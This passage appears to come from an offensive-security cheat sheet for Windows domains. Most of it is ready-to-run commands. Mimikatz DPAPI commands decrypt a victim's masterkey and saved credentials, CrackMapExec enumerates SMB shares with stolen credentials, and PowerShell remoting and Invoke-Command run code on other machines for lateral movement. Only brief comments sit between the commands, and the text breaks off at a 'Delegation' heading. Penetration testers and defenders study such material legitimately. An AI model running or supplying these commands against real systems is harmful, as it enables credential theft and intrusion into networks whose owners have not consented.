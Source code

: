 ##### Mimikatz
From [mimikatz github](https://github.com/gentilkiwi/mimikatz/wiki/howto-~-credential-manager-saved-credentials)
```
# Check the details of the credential
.\mimikatz.exe "dpapi::cred /in:C:\Users\victim\AppData\Local\Microsoft\Credentials\12345678901234567890123456789012" exit

# Get victim security context (inject into user process or impersonnate with token)
# Decrypt the Masterkey using her password: Tip: if we are on a user's context using /rpc will auth with DC and will decrypt the masterkey!
.\mimikatz.exe "dpapi::masterkey /in:c:\Users\victim\AppData\Roaming\Microsoft\Protect\S-1-5-21-1313131313-8888888888-9999999999-1111\5f4b97cd-43aa-5e0f-26ab-fe63d801bbc4 /rpc" exit

Results: Masterkey:abcdef0123[...]4567890
SHA1 of masterkey:6b82b138e1a6b77f4c55a8df728288f56a3b6d5f

# Decrypt the credential
.\mimikatz.exe "token::elevate dpapi::cred /in:C:\Users\victim\AppData\Local\Microsoft\Credentials\12345678901234567890123456789012 /masterkey:6b82b138e1a6b77f4c55a8df728288f56a3b6d5f" exit
```
### Lateral Movement

#### CrackMapExec
```
# There are many ways to do that, here is an example
crackmapexec smb hosts.list -u <user> -p <password> --shares --continue-on-success
```
#### Powershell Remoting
```
# Enable Powershell Remoting on current Machine (need admin)
Enable-PSRemoting -force

# Create and enter into a new PSSession
$user = "DOMAIN\User" ;$s= "password";$ss = Convertto-securestring -string $s -AsPlainText -Force;$Credential = new-object -typename System.Management.Automation.PSCredential -argumentlist $user, $ss;

New-PSSession -Credential $Credential | Enter-PSSession
```
#### Rce with PS credentials
```
$user = "DOMAIN\User" ;$s= "password";$ss = Convertto-securestring -string $s -AsPlainText -Force;$Credential = new-object -typename System.Management.Automation.PSCredential -argumentlist $user, $ss;

Invoke-Command -ComputerName <target_computer> -Credential $Credential -ScriptBlock { whoami }
```

#### Delegation
